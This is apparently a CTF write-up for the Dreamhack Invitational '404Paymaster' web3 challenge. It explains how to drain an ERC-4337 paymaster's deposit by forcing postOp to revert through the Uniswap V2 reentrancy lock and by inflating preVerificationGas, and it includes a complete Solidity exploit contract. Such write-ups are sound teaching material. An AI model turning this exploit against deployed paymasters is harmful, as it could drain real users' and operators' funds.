 ```yaml
---
title: Blockchain - 404Paymaster
description: 2024 | Dreamhack Invitational | web3
tags:
    - smart contract
    - account abstraction
    - uniswap v2
---
```


## Description

Do you know what AA is? You should know that.

[:material-download: `404paymaster.zip`](static/404paymaster.zip)

## Solution

- The DN404 paymaster, which allows users to pay fees with DN404 tokens, has deposited `5 * 1e16` WETH into the entry point. To solve the challenge, we need to consume the paymaster's deposit to below `1e10`
- The entry point executes userOps by two loops: validation loop and execution loop

    ```js
    function handleOps(UserOperation[] calldata ops, address payable beneficiary) public nonReentrant {
        uint256 opslen = ops.length;
        UserOpInfo[] memory opInfos = new UserOpInfo[](opslen);

        unchecked {
            for (uint256 i = 0; i < opslen; i++) {
                UserOpInfo memory opInfo = opInfos[i];
                (uint256 validationData, uint256 pmValidationData) = _validatePrepayment(i, ops[i], opInfo);
                _validateAccountAndPaymasterValidationData(i, validationData, pmValidationData, address(0));
            }

            uint256 collected = 0;
            emit BeforeExecution();

            for (uint256 i = 0; i < opslen; i++) {
                collected += _executeUserOp(i, ops[i], opInfos[i]);
            }

            _compensate(beneficiary, collected);
        } //unchecked
    }
    ```

- During the validation loop, the required prefund fee is calculated based on arguments in userOps and deducted from the paymaster's deposit. Meanwhile, the paymaster will precharge DN404 tokens corresponding to 120% of the gas fee based on the cached price
- `handleOps()` will call `postOp()` on the paymaster after making the execution call. In the `postOp()`, the paymaster will refund tokens to users based on the actual gas cost and use the received tokens to refill the deposit
- Since DN404 tokens are charged at 120% of the fee, after normal execution, the paymaster's deposit will be higher than before execution. And the paymaster is using Uniswap V2 to swap DN404 tokens back to WETH. We may be able to manipulate the price by swapping, but the price cached in the paymaster obtains reserved data from the Uniswap V2 pair (i.e. flash loans won't work) and we hold too few tokens compared to the pair

    ```js
    function updateCachedPrice() public returns (uint256) {
        // This function updates the cached ERC20/mockETH price ratio from pair
        (address token0,) = sortTokens(address(token), address(mockWETH));
        (uint256 reserve0, uint256 reserve1,) = IUniswapV2Pair(pair).getReserves();
        (uint256 reserveToken, uint256 reserveNative) =
            address(token) == token0 ? (reserve0, reserve1) : (reserve1, reserve0);
        require(reserveToken != 0, "reserveToken is zero");
        return cachedPrice = reserveNative * PRICE_DENOMINATOR / reserveToken;
    }
    ```

- If `innerHandleOp()` reverts due to `postOp` execution failure, the entry point will only roll back the current execution instead of the entire transaction and `postOp()` will be called again with `postOpReverted` mode. In this case, `postOp()` will do nothing, including refilling the deposit and refunding tokens. However, the storage that was changed during the validation loop will not be reverted and the entry point will be charged according to the gas consumed. Thus, the paymaster's deposit can be reduced

    ```js
    function _postOp(PostOpMode mode, bytes calldata context, uint256 actualGasCost) internal override {
        unchecked {
            ...
            if (mode == PostOpMode.postOpReverted) {
                emit PostOpReverted(userOpSender, preCharge);
                // Do nothing here to not revert the whole bundle and harm reputation
                return;
            }
            ...
        }
    }
    ```

- Utilize the Uniswap V2 reentrancy lock to cause swap to fail is an easy way to let `postOp()` reverts
- Then, since the gas price is under control, to increase `actualGasCost`, we need to consider how to consume as much gas as possible in a userOp
- The `actualGas` calculation consists of two parts: the gas consumed by the execution and user-provided `preVerificationGas`. The `preVerificationGas` is the extra gas to pay the bundler and can be used to increase gas consumption greatly

### Exploitation

```js
contract Hack {

    Challenge challenge;

    constructor(Challenge _challenge) {
        challenge = _challenge;
    }

    function exploit() external {
        address paymaster = challenge.paymaster();
        address dn = challenge._dn404();
        address weth = address(IDN404Paymaster(paymaster).mockWETH());
        IUniswapV2Factory factory = IUniswapV2Factory(challenge.uniV2factory());
        IUniswapV2Pair pair = IUniswapV2Pair(factory.getPair(dn, weth));
        IEntryPoint entryPoint = IDN404Paymaster(paymaster).entryPoint();

        challenge.register();
        IERC20(dn).approve(paymaster, type(uint256).max);
        uint nonce;
        uint mul = 1e10;
        while (!challenge.isSolved()) {
            // swap to lock the pair
            pair.swap(
                pair.token0() == dn ? 1 : 0,
                pair.token1() == dn ? 1 : 0,
                address(this),
                abi.encode(nonce++, mul)
            );
            // the required prefund should not exceed the paymaster's deposit
            if (entryPoint.balanceOf(paymaster) / 1e6 < mul) {
                mul /= 10;
            }
        }
    }

    function uniswapV2Call(
        address sender,
        uint,
        uint,
        bytes calldata data
    ) external {
        require(sender == address(this));
        address paymaster = challenge.paymaster();
        UserOperation[] memory ops = new UserOperation[](1);
        (uint nonce, uint mul) = abi.decode(data, (uint, uint));
        ops[0] = UserOperation({
            sender: address(this),
            nonce: nonce,
            initCode: new bytes(0),
            callData: new bytes(0),
            callGasLimit: 10000,
            verificationGasLimit: 110000,   // The amount of gas to allocate for the verification step
            preVerificationGas: 640000,
            maxFeePerGas: mul,
            maxPriorityFeePerGas: mul,
            paymasterAndData: abi.encodePacked(paymaster),
            signature: ""
        });
        IEntryPoint entryPoint = IDN404Paymaster(paymaster).entryPoint();
        entryPoint.handleOps(ops, payable(address(this)));

        IERC20(challenge._dn404()).transfer(msg.sender, 3);
    }

    function validateUserOp(
        UserOperation calldata,
        bytes32,
        uint256)
    external view returns (uint256 validationData) {
        validationData = block.timestamp << (48 + 160); // validAfter
    }
}
```

## References

- [ERC-4337: Account Abstraction Using Alt Mempool](https://eips.ethereum.org/EIPS/eip-4337#extension-paymasters)
- [[M-01] Balance check during `MagicSpend` validation cannot ensure that `MagicSpend` has enough balance to cover the requested fund](https://solodit.xyz/issues/m-01-balance-check-during-magicspend-validation-cannot-ensure-that-magicspend-has-enough-balance-to-cover-the-requested-fund-code4rena-coinbase-coinbase-git)
